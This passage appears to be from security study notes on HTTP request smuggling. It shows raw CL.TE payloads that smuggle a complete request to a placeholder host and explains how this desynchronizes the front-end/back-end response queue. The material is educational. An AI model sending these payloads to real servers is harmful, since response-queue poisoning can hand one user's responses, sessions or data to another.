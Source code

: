 ### Smuggling a complete request
With a bit of care, you can smuggle a complete request instead of just a prefix. As long as you send exactly two requests in one, any subsequent requests on the connection will remain unchanged:

Front-end (CL):
```bash
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Type: x-www-form-urlencoded\r\n
Content-Length: 61\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /anything HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n # 61 content length includes this line as well
GET / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
```

Back-end (TE)
```bash
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Type: x-www-form-urlencoded\r\n
Content-Length: 61\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /anything HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
GET / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
```

Notice that no invalid requests are hitting the back-end, so the connection should remain open following the attack

### Desynchronizing the response queue
When you smuggle a complete request, the front-end server still thinks it only forwarded a single request. On the other hand, the back-end sees two distinct requests, and will send two responses accordingly: 

The front-end correctly maps the first response to the initial "wrapper" request and forwards this on to the client. As there are no further requests awaiting a response, the unexpected second response is held in a queue on the connection between the front-end and back-end.

When the front-end receives another request, it forwards this to the back-end as normal. However, when issuing the response, it will send the first one in the queue, that is, the leftover response to the smuggled request.
